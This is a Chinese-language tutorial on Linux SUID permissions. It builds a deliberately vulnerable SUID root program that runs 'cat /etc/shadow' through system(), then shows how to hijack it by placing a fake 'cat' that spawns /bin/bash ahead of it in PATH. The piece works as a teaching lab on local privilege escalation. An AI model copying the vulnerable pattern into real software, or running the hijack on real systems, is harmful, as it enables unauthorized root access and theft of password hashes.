


## 1、简介

SUID是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行。

SUID是一种对二进制程序进行设置的特殊权限，可以让二进制程序的执行者临时拥有属主的权限（仅对拥有执行权限的二进制程序有效）。例如，所有用户都可以执行passwd命令来修改自己的用户密码，而用户密码保存在/etc/shadow文件中。仔细查看这个文件就会发现它的默认权限是000，也就是说除了root管理员以外，所有用户都没有查看或编辑该文件的权限。但是，在使用passwd命令时如果加上SUID特殊权限位，就可让普通用户临时获得程序所有者的身份，把变更的密码信息写入到shadow文件中。这很像我们在古装剧中见到的手持尚方宝剑的钦差大臣，他手持的尚方宝剑代表的是皇上的权威，因此可以惩戒贪官，但这并不意味着他永久成为了皇上。因此这只是一种有条件的、临时的特殊权限授权方法。

c源代码 suid.c

```c
cat << EOF >suid.c
#include<stdlib.h>
#include <unistd.h>
int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}
EOF
```

以 root进行编译和权限设置

## 2、编译

```bash
gcc suid.c -o suid-exp
```

## 3、设置suid位

```bash
chmod 4775 suid-exp 
```

s属性 标识这个程序有suid的属性

```bash
ls -l suid-exp
find /tmp -perm -u=s -type f 2>/dev/null
```

 

## 4、切换用户执行



## 5、劫持环境变量提权

因为system函数是继承环境变量 可以通过替换环境变量可以达到执行任意命令。
创建一个文件

```bash
echo "/bin/bash">cat && chmod 777 cat 
```

在tmp目录下建立一个文件cat 它会执行一个shell

查看当前环境变量

```bash
echo $PATH 
```

把当前tmp目录增加到环境变量

```bash
export PATH=.:$PATH
```

设置了PATH 执行cat的时候会优先从当前目录下查找程序。所以cat命令会被劫持，

就可以执行任意命令

